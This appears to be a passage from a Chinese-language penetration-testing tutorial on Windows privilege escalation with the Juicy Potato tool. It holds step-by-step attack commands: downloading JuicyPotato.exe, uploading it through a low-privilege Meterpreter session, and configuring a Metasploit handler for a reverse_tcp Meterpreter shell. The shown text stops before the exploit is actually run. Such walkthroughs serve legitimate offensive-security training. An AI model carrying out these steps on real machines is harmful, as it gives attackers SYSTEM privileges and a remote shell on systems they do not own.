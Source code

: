 

```python
getsystem
```

![image-20241009163616270](https://image.201068.xyz/assets/38.后渗透/image-20241009163616270.png)

#### 3.3.2.Juicy Potato

https://github.com/ohpe/juicy-potato

下载连接：https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

```python
cd /root/tools/windows/
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Juicy Potato 与 Rotten Potato 的原理几乎完全相同，只是在后者的基础上做了扩展，以便更灵活利用 Rotten Potato。Juicy Potato 不再像 Rotten Potato 那样依赖于一个现有的Meterpreter，并且可以自定义 COM 对象加载的端口，以及根据系统版本更换可用的COM对象

##### 演示

假设已通过 `MetaSploit` 获取了**低权限**。

![image-20241009164126096](https://image.201068.xyz/assets/38.后渗透/image-20241009164126096.png)

#####  ①上传利用程序

上传 JuicyPotato 的利用程序，并根据操作系统版本选择一个可用的COM对象。

```python
upload /root/tools/windows/JuicyPotato.exe
```

![image-20241009164504705](https://image.201068.xyz/assets/38.后渗透/image-20241009164504705.png)

在Rotten Potato 中使用的 COM 对象为BITS，而Juicy Potato为不同 Windows 版本提供了多个可以利用的COM对象，

详细列表请参考（https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md）。

#####  ②运行JuicyPotato

运行JuicyPotato，将获取 SYSTEM 权限并运行指定的攻击载荷（先使用**MetaSploit**监听）

###### **MetaSploit**监听

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
exploit
```

![image-20241009164633835](https://image.201068.xyz/assets/38.后渗透/image-20241009164633835.png)
